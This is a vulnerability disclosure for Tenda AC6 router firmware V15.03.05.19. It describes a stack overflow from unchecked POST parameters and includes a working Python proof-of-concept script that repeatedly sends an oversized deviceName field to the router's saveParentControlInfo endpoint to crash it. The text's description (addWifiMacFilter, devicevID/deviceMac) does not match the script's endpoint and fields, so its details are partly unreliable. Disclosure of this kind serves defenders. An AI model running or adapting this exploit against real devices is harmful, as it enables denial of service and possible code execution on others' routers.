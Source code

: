 #### Tenda-AC6

###### Affected version

AC6-V1.0BR_V15.03.05.19

###### Vulnerability details

In the addWifiMacFilter function, the parameter lengths of devicevID and deviceMac passed through POST are not verified, causing stack overflow during the sprintf memory copy process, causing a denial of service and even hijacking the function return address. Since Tanda-ac6 can be set without a password, a strong password should be set and kept well.

![image-20250522185600723](picture/Tanda-AC6-V1.0BR_V15.03.05.19-Vulnerability_Report/image-20250522185600723.png)

###### Validation script

~~~python
import requests
import time

url = "http://192.168.0.1/goform/saveParentControlInfo"
data = {
    "deviceId": "12:12:12:12:12:12",
    "deviceName": "a" * 1024
}

headers_template = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0",
    "Accept": "*/*",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.1",
    "Referer": "http://192.168.0.1/parental_control.html",
    "Connection": "close"
}

def send_request_with_updated_cookie(retries=3, delay=1):
    session = requests.Session()
    cookie_value = "mdncvb"

    for i in range(retries):
        print(f"\nTrying the {i+1}th request...")
        headers = headers_template.copy()
        headers["Cookie"] = f"password={cookie_value}"

        try:
            response = session.post(url, headers=headers, data=data, allow_redirects=False, timeout=5)

            set_cookie = response.headers.get("Set-Cookie")
            if set_cookie:
                cookie_value = set_cookie.split(";")[0].split("=")[1]
                print(f"Get new cookies:{cookie_value}")
            else:
                print("No new cookie was obtained.")

            print(f"Response status code: {response.status_code}")

        except requests.exceptions.RequestException as e:
            print(f"Request failed: {e}")

        time.sleep(delay)

send_request_with_updated_cookie(retries=100, delay=1)
~~~

###### result

![image-20250522190230195](picture/Tanda-AC6-V1.0BR_V15.03.05.19-Vulnerability_Report/image-20250522190230195.png)